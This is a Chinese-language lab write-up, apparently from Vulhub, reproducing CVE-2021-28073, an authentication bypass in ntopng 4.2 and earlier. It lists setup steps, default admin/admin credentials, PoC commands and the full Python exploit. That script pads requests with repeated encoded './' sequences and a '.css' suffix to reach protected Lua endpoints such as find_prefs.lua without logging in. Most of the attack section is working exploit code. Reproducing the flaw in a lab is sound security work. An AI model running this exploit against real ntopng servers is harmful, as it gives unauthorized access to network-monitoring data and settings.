



# ntopng权限绕过漏洞 CVE-2021-28073

## 漏洞描述

ntopng是监控服务器网络流量的工具，对外提供Web页面。其4.2及以前的版本中存在一处权限绕过漏洞，利用该漏洞可以未授权访问目标任意接口。

参考链接：

- http://noahblog.360.cn/ntopng-multiple-vulnerabilities/

## 环境搭建

Vulhub执行如下命令启动ntopng：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`将被跳转到登录页面，默认密码admin/admin，首次登录将会重设密码。

## 漏洞复现

根据参考链接中的方法，编写一个简单的[poc.py](https://github.com/vulhub/vulhub/blob/master/ntopng/CVE-2021-28073/poc.py)。首先，计算出ntopng lua目录的长度：

```
python poc.py --url http://your-ip:3000/ baselength
```



可见，Vulhub靶场中的长度为36。

然后，找到我们想要越权访问的页面或接口，比如`/lua/find_prefs.lua`，正常访问时会302跳转到登录页面，无权限。

使用POC生成越权访问URL：

```
python poc.py --url http://your-ip:3000/ generate -l 36 -p find_prefs.lua
```



访问这个URL，发现可以越权返回正常信息：



后续更深入的利用方法，可以自行修改poc.py利用。

## 漏洞POC

```python
import sys
import requests
import argparse
import logging


def is_ntopng() -> bool:
    response = session.get(base_url, allow_redirects=False)
    return response.status_code == 302 and '/lua/login.lua' in response.headers.get('Location', '')


def get_base_length() -> int:
    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'as_stats.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('as_stats.lua')

    for i in range(90, 120):
        url = base_url + '/lua/' + '%2e%2f' * i + 'get_macs_data.lua.css'
        response = session.get(url, allow_redirects=False)
        if response.status_code < 300:
            return 255 - 1 - i * 2 - len('get_macs_data.lua')

    return -1


def get_padding_length(path: str):
    padding_length = 255 - 1 - base_length - len(path)
    if padding_length % 2 == 1:
        raise RuntimeError(f'path {path} is not support')

    return int(padding_length / 2)


logging.basicConfig(stream=sys.stderr, level=logging.WARNING)
session = requests.Session()
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='CVE-2021-28073 POC for ntopng.')
    parser.add_argument('-u', '--url', help='base url for ntopng, eg: http://192.168.1.233:3000', metavar='<URL>', required=True)
    parser.add_argument('-v', '--verbose', default=False, action='store_true')

    subparsers = parser.add_subparsers(dest='action')

    baselength_command = subparsers.add_parser('baselength', help='get base path length of ntopng')

    generate_command = subparsers.add_parser('generate', help='generate the authenticate bypass url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-p', '--path', help='lua pathname', metavar='<PATH>', required=True)

    generate_command = subparsers.add_parser('include', help='generate the arbitrary file inclusion url')
    generate_command.add_argument('-l', '--length', type=int, help='base path length of target ntopng', metavar='<LENGTH>', required=True)
    generate_command.add_argument('-i', '--include', help='path to include', metavar='<PATH>', required=True)

    args = parser.parse_args()
    if not args.action:
        parser.print_help()
        sys.exit(1)

    if args.verbose:
        logging.basicConfig(stream=sys.stderr, level=logging.DEBUG)

    base_url = args.url.rstrip('/')

    # check target
    if not is_ntopng():
        raise RuntimeError('No Ntopng detected')

    if args.action == 'baselength':
        base_length = get_base_length()
        sys.stdout.write(f'ntopng install path length: {base_length}\n')
    elif args.action == 'generate':
        base_length = args.length
        path = args.path
        sys.stdout.write(base_url + '/lua/' + '%2e%2f' * get_padding_length(path) + path + '.css\n')
```

